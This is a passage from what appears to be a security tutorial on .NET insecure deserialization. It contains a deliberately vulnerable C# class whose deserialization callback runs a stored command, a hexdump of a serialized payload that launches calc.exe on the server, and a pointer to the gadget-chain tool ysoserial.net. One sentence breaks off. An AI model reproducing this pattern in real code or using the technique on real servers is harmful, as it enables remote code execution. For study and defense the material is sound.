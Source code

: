 ```csharp
            get { return _cmd; }
            set
            {
                _cmd = value;
                //run(); Disabled to avoid spawning a calc while serializing 
            }
        }

        private void run()
        {
            System.Diagnostics.Process p = new System.Diagnostics.Process();
            p.StartInfo.FileName = _cmd;
            p.Start();
            p.Dispose();
        }

        public void OnDeserialization(object sender) {
            Run();
        }
    }
}
```

Serializing that would produce the following file:

```
$ hexdump.exe -C desert.ser
00000000  00 01 00 00 00 ff ff ff  ff 01 00 00 00 00 00 00  |................|
00000010  00 0c 02 00 00 00 47 42  69 6e 61 72 79 53 65 72  |......GBinarySer|
00000020  69 6c 69 61 7a 65 72 2c  20 56 65 72 73 69 6f 6e  |iliazer, Version|
00000030  3d 30 2e 30 2e 30 2e 30  2c 20 43 75 6c 74 75 72  |=0.0.0.0, Cultur|
00000040  65 3d 6e 65 75 74 72 61  6c 2c 20 50 75 62 6c 69  |e=neutral, Publi|
00000050  63 4b 65 79 54 6f 6b 65  6e 3d 6e 75 6c 6c 05 01  |cKeyToken=null..|
00000060  00 00 00 17 42 69 6e 61  72 79 53 65 72 69 61 6c  |....BinarySerial|
00000070  69 7a 61 74 69 6f 6e 2e  52 43 45 01 00 00 00 04  |ization.RCE.....|
00000080  5f 63 6d 64 01 02 00 00  00 06 03 00 00 00 08 63  |_cmd...........c|
00000090  61 6c 63 2e 65 78 65 0b                           |alc.exe.|
00000098
```

Once deserialized by the application, it would automatically spawn a calculator on the application hosting server.

There are many other type of classes that can be abused, like classing using Delegate or 

So, the above pieces of code are trivial examples on how the exploitation process works. The next question would be, could it be possible to exploit it without relying on the Damn Vulnerable RCE class? The answer is yes, and it's provided, similarly to JAVA, by means of **POP gadgets**. 

The only exception being that each formatter holds its own exploitation methodology and its gadgets. Practically each formatter has visibility only to certain objects an types, so not every gadget can be used with a specific formatter (We'll see a manual example of that later on in this document).

During the years, **ysoserial.net** was created, which allows to generate automatically serialized payloads using known .NET gadgets. The tool is available [here](https://github.com/pwntester/ysoserial.net/)
